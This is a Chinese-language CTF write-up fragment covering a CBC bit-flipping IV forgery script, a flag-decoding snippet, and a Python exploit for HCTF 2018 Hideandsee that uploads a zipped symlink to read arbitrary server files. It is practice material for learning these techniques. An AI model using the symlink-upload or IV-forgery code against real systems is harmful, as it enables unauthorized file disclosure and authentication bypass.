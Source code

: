 cbc翻转

```python
import base64
origin = b"piapiapiapia"
target = b'weber'
target = target.ljust(16,bytes.fromhex(str(hex(16-len(target)))[2:].rjust(2,"0")))
origin = origin.ljust(16,bytes.fromhex(str(16-len(origin)).rjust(2,"0")))
# print(origin)
iv = base64.b64decode('idNPoeLx3mRLO4qw+rLJlg==')
result = b''
for i in range(16):
    result+=bytes([target[i] ^ iv[i] ^ origin[i]])
print(base64.b64encode(result))
```

byte转字符

```python
a = bytearray([102, 108, 97, 103, 123, 119, 101, 54, 95, 52, 111, 103, 95, 49, 115, 95, 101, 52, 115, 121, 103, 48, 105, 110, 103, 125])
print(a)
```

## 0x02[HCTF 2018]Hideandsee

zip软连接

uuid的获取，是和之前做过的原题，但是u1s1，哥哥们做的脚本真好用

```python
#coding=utf-8
import os
import requests
import sys

url = 'http://ab29f931-0b32-4f33-bf9c-59fb92a9a842.node4.buuoj.cn:81/upload'
def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    os.system('zip --symlinks exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip','rb')}
def exploit():
    res = requests.post(url,files=files)
    print(res.text)

exploit()
os.system('rm -rf exp')
os.system('rm -rf exp.zip')

```

然后就是mac地址转换为10进制
